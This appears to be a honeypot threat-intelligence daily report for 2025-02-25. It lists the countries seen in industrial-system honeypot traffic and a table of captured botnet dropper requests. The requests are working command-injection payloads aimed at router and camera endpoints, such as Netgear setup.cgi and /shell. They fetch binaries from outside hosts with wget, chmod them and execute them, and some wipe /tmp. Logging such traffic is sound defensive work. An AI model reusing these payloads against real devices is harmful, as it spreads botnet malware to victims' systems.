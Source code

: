 ```yaml
---
title: "Report: 2025-02-25 "
date: 2025-02-25
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-25
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| CN               | Singapore          |
| US               | Dubai              |
| US               | Dubai              |
| FR               | Israel             |
| US               | Israel             |
| US               | Israel             |
| US               | Israel             |
| US               | Israel             |
| US               | Israel             |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                       |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 31.170.22.205   | GET /language/Swedish${IFS}&&wget${IFS}http://31.170.22.205/dl2${IFS}-O${IFS}/tmp/dl.sh;sh${IFS}/tmp/dl.sh HTTP/1.1                                                                                                                                                                                           |
| 31.170.22.205   | GET /shell?wget+http%3A%2F%2F31.170.22.205%2Fdl8+-O+%2Ftmp%2Fdl.sh%3B+sh+%2Ftmp%2Fdl.sh HTTP/1.1                                                                                                                                                                                                              |
| 31.170.22.205   | GET /setup.cgi?next_file=netgear.cfg&curpath=/&currentsetting.htm=1&todo=syscmd&cmd=wget+http%3A%2F%2F31.170.22.205%2Fdl9+-O+%2Ftmp%2Fdl.sh%3B+sh+%2Ftmp%2Fdl.sh HTTP/1.1                                                                                                                                     |
| 31.170.22.205   | GET /cgi-bin/;wget${IFS}http://31.170.22.205/dl10${IFS}-O${IFS}/tmp/dl.sh;sh${IFS}/tmp/dl.sh HTTP/1.1                                                                                                                                                                                                         |
| 31.170.22.205   | GET /board.cgi?cmd=wget+http%3A%2F%2F31.170.22.205%2Fdl13+-O+%2Ftmp%2Fdl.sh%3B+sh+%2Ftmp%2Fdl.sh HTTP/1.1                                                                                                                                                                                                     |
| 91.224.92.10    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.125.66.124%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                    |
| 141.98.11.27    | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+efefa7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |
| 117.208.175.134 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.208.175.134:34599/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                |
| 27.43.204.37    | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                    |
